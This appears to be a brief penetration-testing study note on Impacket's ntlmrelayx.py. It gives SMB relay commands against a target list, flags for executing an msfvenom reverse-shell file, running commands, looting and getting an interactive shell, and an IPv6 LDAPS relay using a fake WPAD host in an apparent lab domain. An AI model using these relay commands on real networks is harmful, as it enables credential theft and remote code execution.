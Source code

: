 
# ntlmrelayx.py
```bash
ntlmrelayx.py -tf targets.txt -smb2support

-e # to execute a file (msfvenom rev shell etc.)
-c # command (e.g. whoami)
-6 # for IPv6
-t # target 
-l # loot
# Getting interactive shell
-i # for interactive shell


ntlmrelayx.py -6 -t ldaps://IP -wh  fakewpad.marvel.local -l lootme # IPv6 ldaps attack e.g

-w # wpad
```
---
Tags: #smb_relay #impackets 